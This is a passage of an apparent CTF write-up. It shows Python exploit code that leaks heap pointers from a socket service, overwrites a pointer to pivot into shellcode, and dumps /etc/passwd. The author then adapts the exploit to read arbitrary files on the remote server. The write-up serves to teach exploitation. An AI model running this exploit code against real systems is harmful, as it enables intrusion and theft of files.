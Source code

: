 p_pivot = getID(data)

print '[+] pivot = 0x{0:08x}'.format(p_pivot)

# let's crash the binary to see if this works
s.send("c 1\n")

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_tmp = getID(data)

s.send('u ' + str(p_tmp) + ' ' + struct.pack('<L', p_pivot-0x10) + '\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_vuln = getID(data)

print '[+] vulnerable pointer = 0x{0:08x}'.format(p_vuln)

# send read request to crash binary
s.send('r ' + str(p_vuln) + '\n')

print s.recv(1000)
# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
{% endhighlight)

{% highlight bash)
[+] shellcode = 0x01355030
[+] pivot = 0x01355030
[+] vulnerable pointer = 0x013552b0
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...snip...
{% endhighlight)

This also worked against the remote server! It showed me that there was a user called ```amazon``` with home directory ```/home/amazon```. I adapted the exploit a bit to make it read arbitrary files. The instruction that needs adjusting is this one:

{% highlight bash)
; NULL byte fix
xor byte [rdi + 11], 0x41
{% endhighlight)

We need to update the value 11, or ```0x0b```. The exploit code was modified once more, spraying ```time.sleep()``` calls here and there:

{% highlight python)
#!/usr/bin/python

from socket import *
import time, re, struct, sys


def getID(data):
    match = re.search(r'(\d.*)', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))
